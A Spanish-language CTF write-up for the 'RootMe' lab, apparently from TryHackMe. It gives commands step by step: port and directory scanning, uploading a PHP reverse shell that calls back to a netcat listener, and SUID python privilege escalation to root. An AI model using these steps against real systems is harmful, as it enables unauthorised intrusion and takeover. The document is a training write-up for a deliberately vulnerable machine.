# RootMe - Guía Rápida de Pasos y Comandos
IP: 10.10.XXX.XXX

## 1. Reconocimiento

*   Realiza un escaneo inicial de puertos y servicios:
    ```bash
    nmap -sV $TARGET
    ```
*   Ejecuta un escaneo más detallado con enumeración mediante scripts, guardando la salida:
    ```bash
    nmap -sC -sV -oA rootme.txt $TARGET
    ```
*   Descubre directorios web para encontrar puntos de subida:
    ```bash
    gobuster dir --url http://10.10.XXX.XXX/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
    ```
    *(Esto debería identificar un panel de subida y el directorio `/uploads/`)*

## 2. Obteniendo una Shell

*   Prepara una reverse shell en PHP (de PentestMonkey: [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)).
*   Actualiza el script de la shell con tu IP de `tun0` y el puerto `1234`.
*   Sube la shell a través del panel web.
*   Inicia un listener:
    ```bash
    nc -l -v -n -p 1234
    ```
*   Activa la shell accediendo al archivo subido en `/uploads/`.
*   Mejora la shell básica:
    ```bash
    python -c "import pty; pty.spawn('/bin/bash')"
    ```
*   Encuentra la bandera de usuario:
    ```bash
    find / -type f -name user.txt 2>/dev/null
    ```
    *(Luego usa `cat` sobre el archivo)*

## 3. Escalada de Privilegios

*   Busca binarios SUID:
    ```bash
    find / -type f -perm -4000 2>/dev/null
    ```
    *(Identifica `/usr/bin/python` como SUID)*
*   Usa GTFOBins ([https://gtfobins.github.io/](https://gtfobins.github.io/)) para el exploit SUID de Python.
*   Navega a `/usr/bin` y ejecuta:
    ```bash
    ./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
    ```
*   Verifica el acceso root:
    ```bash
    whoami
    ```
    *(El resultado debe ser `root`)*
*   Localiza y lee `root.txt`.
```

